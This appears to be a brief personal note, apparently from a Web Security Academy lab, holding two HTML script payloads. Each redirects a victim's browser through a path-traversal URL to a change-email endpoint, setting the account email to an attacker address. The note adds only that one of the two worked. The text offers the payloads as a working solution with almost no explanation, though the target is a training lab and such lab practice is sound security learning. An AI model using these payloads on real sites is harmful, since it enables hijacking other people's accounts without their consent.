 ```html
<script>
    document.location = "https://0a3c004b03d1da9f81d6486800f60039.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email?email=pwned%40web-security-academy.net%26submit=1";
</script>
```
```html
<script>
    window.location = "https://0a3c004b03d1da9f81d6486800f60039.web-security-academy.net/post/comment/confirmation?postId=../my-account/change-email?email=evil%40ludicro.net%26submit=1";
</script>
```

One of these scripts worked and I don't remember which one.